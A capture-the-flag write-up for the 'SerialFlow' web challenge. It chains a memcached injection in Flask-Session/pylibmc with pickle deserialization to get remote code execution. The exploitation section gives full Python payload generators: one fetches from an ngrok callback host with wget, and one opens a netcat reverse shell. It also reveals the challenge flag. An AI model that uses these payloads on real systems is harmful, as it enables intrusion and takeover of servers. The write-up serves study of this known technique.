


# SerialFlow

Date: March 2024

Difficulty: <font color='orange'>Medium</font>

Category: **web**

## Description
>SerialFlow is the main global network used by KORP, you have managed to reach a root server web interface by traversing KORP's external proxy network. Can you break into the root server and open pandoras box by revealing the truth behind KORP?

## Strategy


## Enumeration

The website at first view does not provide much functionalities.


We are given the source code "web_serialflow.zip".

### Analyzing the source code

#### 1. uicolor query parameter

We see that if passed a uicolor value via query parameter it changes the color. At first, we supposed the initial foothold was via manipulating this value (SSTI, css injection, etc), but proved to be wrong.



Changed value to #a71919: `/set?uicolor=%23a71919`


#### 2. memcached and pylibmc

There is a really interesting [post](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/) about memcached command injections at pylibmc python library, which also got for review in the nomination of the [top 10 web hacking techniques of 2023 by Portswigger](https://portswigger.net/research/top-10-web-hacking-techniques-of-2023-nominations-open).


The [proof of concept](https://github.com/d0ge/proof-of-concept-labs/blob/main/pylibmc-flask-session/application.py) provided in the post is very similar to serialflow:
1. [requirements.txt](https://github.com/d0ge/proof-of-concept-labs/blob/main/pylibmc-flask-session/requirements.txt) of the PoC has the same versions for Flask, Flask-Session, pylibmc and Werkzeug python libraries.
2. The `app.py` provides the /set endpoint for saving and / for retrieving values from the session storage at Memcached.


```python
[...]
app = Flask(__name__)
[...]
app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])

[...]

@app.route("/set")
def set():
    uicolor = request.args.get("uicolor")

    if uicolor:
        session["uicolor"] = uicolor
    
    return redirect("/")

@app.route("/")
def main():
    uicolor = session.get("uicolor", "#f1f1f1")
    return render_template("index.html", uicolor=uicolor)

```

#### 3. Memcached injections talk at BlackHat 2014

There is an interesting [research](https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf) / [talk](https://www.youtube.com/watch?v=K4OWPdMLi64) about memcached injections by Ivan Novikov that mentions that memcached injections can be used to gain RCE via deserialization of unreliable data.


## Exploitation

### 1. Understanding differences between PoC and challenge

- The PoC uses a session called ["notsecret"](https://github.com/d0ge/proof-of-concept-labs/blob/main/pylibmc-flask-session/application.py#L17) which is set via] `app.config["SESSION_COOKIE_NAME"]`.
- The PoC uses a key prefix ["BT_:"](https://github.com/d0ge/proof-of-concept-labs/blob/main/pylibmc-flask-session/application.py#L16C17-L16C35)
- The challenge <u>does not set</u> explicitly the session variables "SESSION_COOKIE_NAME" or "SESSION_KEY_PREFIX" as the the PoC. The defaults values for them are "session" and "session:" respectively by the documentation [\[1\]](https://flask.palletsprojects.com/en/2.3.x/config/#SESSION_COOKIE_NAME), [\[2\]](https://flask-session.readthedocs.io/en/latest/config.html#SESSION_KEY_PREFIX).
- There is a public [tweet](https://twitter.com/d4d89704243/status/1621972831952162816) by the author of the PoC that clarifies a little better the exploitation.


### 2. Crafting serialized pickle payload to gain RCE on the target

Based on [#1](#1-understanding-differences-between-poc-and-challenge) and the [PoC](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/) we craft the following exploit to verify the vulnerability. The idea is to get a callback to our server.
We already checked that /usr/bin/wget is present on the docker image.

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget https://1a71-2800-a4-32d0-e500-2fe9-9985-8827-ead.ngrok-free.app -O /dev/null')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset session:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""

print("Exploit Memcached RCE", generate_exploit())

```

That resulted in:

```bash
$ python3 memcached.py 
Exploit Memcached RCE "\061\063\067\015\012\163\145\164\040\163\145\163\163\151\157\156\072\061\063\063\067\040\060\040\062\065\071\062\060\060\060\040\061\061\064\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\167\147\145\164\040\150\164\164\160\163\072\057\057\061\141\067\061\055\062\070\060\060\055\141\064\055\063\062\144\060\055\145\065\060\060\055\062\146\145\071\055\071\071\070\065\055\070\070\062\067\055\145\141\144\056\156\147\162\157\153\055\146\162\145\145\056\141\160\160\040\055\117\040\057\144\145\166\057\156\165\154\154\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\163\145\163\163\151\157\156\072\061\063\063\067"
```

The exploit is [here](./exploit.py)

### 3. Gain RCE with generated local image of the challenge

This step is acomplished via 2 steps unified:
- Call the /set endpoint which saves our serialized payload in memcached.
- Redirect to / which loads and deserializes our payload.

Placing the generated payload inside the current "session" cookie and following the redirect executes our payload:


Checking locally in the log console it displays the connection:


Now we changed the payload for a reverse shell:

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('nc 0.tcp.sa.ngrok.io 15167 -e /bin/sh')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset session:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""

print("Exploit Memcached RCE", generate_exploit())
```

```bash
$ python3 memcached.py  
Exploit Memcached RCE "\061\063\067\015\012\163\145\164\040\163\145\163\163\151\157\156\072\061\063\063\067\040\060\040\062\065\071\062\060\060\060\040\066\071\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\156\143\040\060\056\164\143\160\056\163\141\056\156\147\162\157\153\056\151\157\040\061\065\061\066\067\040\055\145\040\057\142\151\156\057\163\150\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\163\145\163\163\151\157\156\072\061\063\063\067"
```


### 4. Reverse shell on the target and get the flag

The same revshell payload with the target and get the flag `HTB{y0u_th0ught_th15_wou1d_b3_s1mpl3?}`


